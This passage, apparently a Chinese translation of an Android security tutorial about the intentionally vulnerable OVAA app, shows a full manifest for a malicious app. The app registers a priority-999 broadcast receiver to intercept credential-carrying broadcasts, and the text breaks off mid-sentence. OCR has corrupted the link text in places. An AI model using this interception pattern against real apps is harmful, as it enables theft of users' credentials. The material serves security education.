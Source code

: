 **![](img/dbeb243ab0380bbf6de987fa6bd2fa73.png)****![](img/18b55b5ddffcd0ea20a483c8831f2d1d.png)**

**制作恶意应用程序的想法非常简单。我们可以注册我们自己的`Broadcast Receiver`，并将其优先级设置为 **999** ，以便首先将`payload`数据从广播意图重定向到我们的应用程序，因为它具有最高优先级。**

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="[http://schemas.android.com/apk/res/android](http://schemas.android.com/apk/res/android)"
    package="com.evil.oversecuredbroadcast"><application
        android:icon="[@mipmap/ic_launcher](http://twitter.com/mipmap/ic_launcher)"
        android:label="[@string/app_name](http://twitter.com/string/app_name)"
        android:roundIcon="[@mipmap/ic_launcher_round](http://twitter.com/mipmap/ic_launcher_round)"
        android:supportsRtl="true"
        android:theme="[@style/Theme](http://twitter.com/style/Theme).MyApplication">
        <receiver
            android:name=".EvilReceiver"
            android:enabled="true"
            android:exported="true">
            <intent-filter android:priority="999">
                <action android:name="oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA">
                </action>
            </intent-filter>
        </receiver><activity android:name=".MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" /><category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application></manifest>
```

**但是由于额外的**有效载荷**包含一个 LoginData **可串行化对象:****
